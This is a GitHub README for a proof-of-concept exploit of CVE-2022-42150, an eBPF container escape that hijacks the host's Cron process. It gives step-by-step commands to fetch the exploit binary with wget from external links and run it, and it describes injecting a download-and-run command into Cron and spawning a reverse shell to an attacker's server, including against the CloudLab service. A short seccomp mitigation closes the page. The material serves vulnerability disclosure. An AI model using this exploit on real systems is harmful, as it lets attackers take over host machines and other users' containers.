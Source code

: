 # Universal Container Escape with eBPF (CVE-2022-42150)

This is the PoC for CVE-2022-42150.

## Attack Requirements
Enabling eBPF inside a contianer. This needs to run docker with one of the following flag:  
- `--cap-add SYS_ADMIN`
- `--privileged`
- `-v /var/run/docker.sock:/var/run/docker.sock`  

If the container is running with any of the three config, users can run eBPF in this container and can use eBPF to escape this container.  
e.g., `docker run -it --name container_test --privileged ubuntu:20.04 bash`

## Attack Detail
Inside a Container, the attackers can use eBPF tracing program (e.g., KProbe) to hijack the processes out of the containers via writing their memory and opened files with the bpf_probe_write_user helper. By injecting malicious commands  (e.g., spawn a reverse shell to the attacker's host) to a privilege process (e.g., bash, Cron) in Host VM, the attackers can execute commands in the host to get control of the host VM and escape the container. 


## Exploit Any Container on Ubuntu 20.04
Here is a PoC for hijacking the Cron process in Ubuntu 20.04. You can run a container with CAP_SYS_ADMIN in Ubuntu 20.04, and execute the PoC program inside the container to hijack the host's Cron process and escape the container.  

#### Get the PoC
PoC Links: [Link1](https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1)  or [Link2](https://drive.google.com/file/d/1glJCZVZuHCT9Y_V4PvQ9s_KXLf2AVBHX/view?usp=sharing)  

The PoC files contains several simple files,
``` bash
\evil_test
├── Dockerfile
├── README.txt
├── Vagrantfile
├── build.sh
├── exploit
└── run.sh
```

#### Run the PoC
Step-1: Create a VM with Ubuntu 20.04.
``` bash
$ tee -a Vagrantfile <<EOF
Vagrant.configure("2") do |config|
  config.vm.box = "generic/ubuntu2004"
end
EOF

$ vagrant init
$ vagrant up
$ vagrant ssh
```

Step-2: Launch the container and perform attack.
``` bash
# in the vagrant VM
$ wget https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1 -O evil_test.zip
$ unzip evil_test.zip
$ cd evial_test
$ bash build.sh
Tick: 1
Tick: 2
...
```

Note that the `build.sh` will build and run the following Dockfile. 
``` bash
FROM ubuntu:20.04        
ARG DEBIAN_FRONTEND=noninteractive        
RUN apt update -y
RUN apt install -y wget
COPY ./exploit /
COPY ./run.sh /
CMD ["/bin/bash","/run.sh"]
```


Step-3: Check if the eBPF exploit program can success to escape the container.   

The eBPF `exploit` program will hijack the Cron of the host from the container. It will inject a command to the Cron to download and run a bash file, e.g., the `attack.sh` which create a directory and file at `/root`. If it success to escape the container, you will find a file with content `pwn` created in the path `/root/evil_escape/escape `.

``` bash
# in the vagrant VM
$ ls /root/evil_escape/escape
/root/evil_escape/escape  xxx

$ cat /root/evil_escape/escape 
pwn
```

Note that, the attackers actually can execute any commands in the `attack.sh` more than write files to `\root`.


## Exploit the CloudLab
CloudLab is a Docker based desktop environment. It has thousands of users and some of them deploy it online as public/private programming services. Users can run code in their online shell. Accordingly, attackers can escape the container via eBPF and harm other users' container instances.    

Here's the steps to run the exploit file in the container's shell of CloudLab.
``` bash
// inside the container
$ tools/docker/run
# wget https://cloud.tsinghua.edu.cn/f/886e8962ccb4472d8eb7/?dl=1 -O ebpf_exploit
# chmod +x ebpf_exploit
#./ebpf_exploit
Tick: 1
Tick: 2
...
```
Then, the container is escaped and can spwan a reserve shell to the attacker's server.

Note that this issue has been fixed at Jun 30 2022 after we disclose it to the TinyLab. 

### Mitigate
To run container with cap SYS_ADMIN, eBPF should be disabled. 
For example, we can set a seccomp rule for the Docker to deny the sys_bpf. You can write a Seccomp profile just like this,    
https://github.com/tinyclub/cloud-lab/blob/d19ff92713685a7fb84b423dea6a184b25c378c9/configs/common/seccomp-profiles-default.json


Then, you can use the `--security-opt seccomp=profile.json` flag to launch the Docker image with seccomp rules.

``` bash
docker run -it --name container_test --security-opt seccomp=profile.json ubuntu:20.04 bash
```

